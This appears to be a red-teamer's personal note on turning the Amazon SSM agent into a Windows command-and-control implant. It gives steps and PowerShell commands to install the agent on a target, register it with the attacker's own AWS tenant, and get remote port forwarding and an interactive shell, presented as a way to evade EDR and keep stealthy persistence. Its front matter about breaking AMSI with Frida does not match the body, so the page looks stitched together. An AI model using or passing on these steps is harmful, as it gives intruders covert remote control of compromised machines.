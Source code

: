 ```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as admin.
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.
Step 4: Create a new hybrid activation. Record the activation code and ID.

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell (Windows Server only), go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then transfer `winpty.dll` and `winpty-agent.exe` to:

- `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`